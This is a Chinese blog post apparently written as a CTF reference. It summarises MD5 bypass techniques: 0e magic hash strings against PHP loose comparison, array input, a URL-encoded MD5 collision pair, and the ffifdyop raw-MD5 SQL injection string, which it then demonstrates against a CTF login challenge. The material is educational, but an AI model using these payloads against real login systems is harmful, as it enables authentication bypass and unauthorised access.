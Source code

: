 ```yaml
---
title: "MD5绕过总结"
subtitle: ""
date: 2024-03-02T18:43:43+08:00
draft: false

tags: ["md5"]
categories: ["Bypass"]

---
```


### 常规0e绕过

- QNKCDZO

- 240610708

- s878926199a

- s155964671a

- s214587387a

- s214587387a

> 这些字符串的md5值都是0e开头，e代表科学计数法，这些值在php弱类型比较中`==`判断为相等

### 数组绕过

一个数组无法进行md5加密，可绕过php强类型`===`比较

### 强类型绕过

即md5碰撞

如题

```php
if((string)$_POST['a'] !== (string)$_POST['b'] && md5($_POST['a']) === md5($_POST['b']))
```

用一些md5值相等的字符串

```
M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%00%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1U%5D%83%60%FB_%07%FE%A2

M%C9h%FF%0E%E3%5C%20%95r%D4w%7Br%15%87%D3o%A7%B2%1B%DCV%B7J%3D%C0x%3E%7B%95%18%AF%BF%A2%02%A8%28K%F3n%8EKU%B3_Bu%93%D8Igm%A0%D1%D5%5D%83%60%FB_%07%FE%A2
```

### 特殊字符串ffifdyop

该字符串经过md5加密后：276f722736c95d99e921722cf9ed621c  

再转换为字符串即为：`'or'6<乱码>`

用途：

```
select * from admin where password=''or'6<乱码>'
```

相当于

```
select * from admin where password='' or true
```

可以用来实现sql注入

除此之外

`129581926211651571912466741651878684928`也可达到同样的效果

#### 实战

题目链接：http://ctf5.shiyanbar.com/web/houtai/ffifdyop.php

![](/img/MD5绕过总结/1.png)

注释中的源码如下

```php
 $password=$_POST['password'];
    $sql = "SELECT * FROM admin WHERE username = 'admin' and password = '".md5($password,true)."'";
    $result=mysqli_query($link,$sql);
        if(mysqli_num_rows($result)>0){
            echo 'flag is :'.$flag;
        }
        else{
            echo '密码错误!';
        }
```

简单介绍下`md5()`函数

```
md5(string,raw)
```

|参数|描述|

|:--:|:--:|

|string|必需，规定要计算的字符串|

|raw|可选，规定十六进制或二进制输出格式。默认False，32字符十六进制|

提交ffifdyop，使查询语句变成

```
select * from admin where username='admin' and password ='' or '6<乱码>'
```

实现sql注入

![](/img/MD5绕过总结/2.png)